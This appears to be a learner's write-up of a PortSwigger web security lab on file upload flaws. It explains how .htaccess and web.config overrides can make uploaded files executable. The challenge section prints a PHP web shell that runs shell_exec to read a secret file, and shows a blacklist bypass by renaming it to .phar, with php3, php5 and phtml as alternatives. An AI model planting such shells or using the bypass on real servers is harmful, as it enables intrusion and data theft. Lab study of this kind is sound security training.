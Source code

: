 ```yaml
---
image: "img/Portswigger/file-upload.jpg"
---
```


## Overriding the server configuration

As we discussed in the previous section, servers typically won't execute files unless they have been configured to do so. For example, before an Apache server will execute PHP files requested by a client, developers might have to add the following directives to their `/etc/apache2/apache2.conf` file:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```

Many servers also allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings. Apache servers, for example, will load a directory-specific configuration from a file called `.htaccess` if one is present.

Similarly, developers can make directory-specific configuration on IIS servers using a `web.config` file. This might include directives such as the following, which in this case allows JSON files to be served to users:

```markup
<staticContent>
  <mimeMap fileExtension=".json" mimeType="application/json" />
</staticContent>`
```

Web servers use these kinds of configuration files when present, but you're not normally allowed to access them using HTTP requests. However, you may occasionally find servers that fail to stop you from uploading your own malicious configuration file. In this case, even if the file extension you need is blacklisted, you may be able to trick the server into mapping an arbitrary, custom file extension to an executable MIME type.

## Challenge

> we have to read the content of `/home/carlos/secret` to find the flag

I used the same payload as previous challenges :

```php
<?php echo shell_exec('cat /home/carlos/secret'); ?>
```

--> i just changed the filename `webshell.php` to `webshell.phar` and it got uploaded !

> Note: You can try other extensions also like `php3`,`php5`and `phtml`

![](Attachments/Pastedimage20220124133154.png)

--> And after copying the image path and pasting in url i got the secret !

![](Attachments/Pastedimage20220124133127.png)
